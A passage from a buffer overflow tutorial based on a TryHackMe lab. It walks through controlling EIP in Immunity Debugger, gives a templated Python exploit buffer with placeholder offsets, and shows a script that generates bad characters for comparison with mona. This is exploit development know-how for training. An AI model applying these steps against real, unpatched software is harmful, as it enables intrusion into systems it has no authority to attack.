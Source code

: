 <p><br></p>
We can then grab the EIP offset from the following line in Immunity:
```bash
EIP Contains normal pattern : <offset_length>
```
<p><br></p>

### Controlling EIP

Once the EIP offset has been determined, we can replace the `offset` value in our script. In order to control EIP, the return (`retn`) and `payload` values will be adjusted accordingly. If everything works as planned, we should expect EIP to be overwritten by B's (`\x42`) and have the ESP register pointing to the start of our C's (`\x43`).
<p><br></p>

```python
prefix = "<buffer_string>" 
offset = <offset_length> 
overflow = "A" * offset 
retn = "BBBB" 
padding = "" 
payload = "C" * (<crash_length> - <offset_length> - 4) 
postfix = "" 
buffer = prefix + overflow + retn + padding + payload + postfix
```

Assuming everything is overwritten properly, we can begin testing for bad characters.
<p><br></p>
### Finding Bad Characters

The following script was utilized from the TryHackMe - Buffer Overflow Prep room in order to test for bad characters. The script generates a full list of bad characters while excluding the null (`\x00`) value, since it is assumed to be disregarded by default.
<p><br></p>

```python
#!/usr/bin/env python 
from __future__ import print_function 
for x in range(1, 256): 
	print("\\x" + "{:02x}".format(x), end="") 
print() 
```
The following values in our proof of concept script should additionally be adjusted to reflect the newly generated bad characters:
<p><br></p>

```python
badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff" 

payload = badchars + "C" * (<crash_length> - <offset_length> - 4 - 255) 
```
Once the application has been crashed again, the following `!mona` commands can be ran to generate the same byte array that was previously generated in order to cross-compare bad characters in the aplication with the previously generated array.
<p><br></p>
